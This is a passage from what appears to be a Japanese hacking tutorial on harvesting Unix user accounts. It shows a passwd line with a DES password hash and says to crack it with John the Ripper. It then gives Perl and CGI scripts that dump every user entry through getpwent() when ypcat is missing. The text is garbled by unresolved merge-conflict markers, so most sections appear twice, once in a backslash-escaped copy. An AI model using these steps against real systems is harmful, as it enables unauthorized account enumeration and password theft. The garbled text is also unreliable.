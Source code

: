 hoge02143:XGJDwsgcD4REI:25643:714:Foo Hoge:/home/hoge/hoge01143/:/bin/bash

<<<<<<< HEAD
のような文字が大量に流れたら成功だ。問題は:で分けた2番目、`XGJDwsgcD4REI'
という部分だ。これはDESという方式で暗号化されたパスワードである。これを`J
=======
のような文字が大量に流れたら成功だ。問題は:で分けた2番目、\`XGJDwsgcD4REI'
という部分だ。これはDESという方式で暗号化されたパスワードである。これを\`J
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
ohn The Ripper'等を使いCrackすればユーザーのパスワードが分かるわけだ。もし、
ここがxだった場合はshadow化されているので、次の方法を考えてみよう。

　ypcatコマンドが存在しなかった場合、以下のプログラムを試してみよう。

<<<<<<< HEAD
-----  getusr.pl
#!/usr/bin/perl
# getusr.pl

my @info = ( );
print join(':', @info)."\n" while (@info = getpwent( ));
-----
=======
\-\-\-\-\-  getusr.pl
\#!/usr/bin/perl
\# getusr.pl

my @info \= ( );
print join(':', @info)."\n" while (@info \= getpwent( ));
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　簡単だ。これはgetpwent()でシステムのユーザー情報を取得する方法だ。

　CGIの場合は以下のCGIを動かしてみよう。

<<<<<<< HEAD
-----  getusr.cgi
#!/usr/bin/perl

print "Content-Type: text/plain\x0d\x0a\x0d\x0a";
print join(':', @info)."\n" while (@info = getpwent( ));
-----
=======
\-\-\-\-\-  getusr.cgi
\#!/usr/bin/perl

print "Content\-Type: text/plain\x0d\x0a\x0d\x0a";
print join(':', @info)."\n" while (@info \= getpwent( ));
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　これも同じだ。初めにhttp headerを吐いておけばよい。
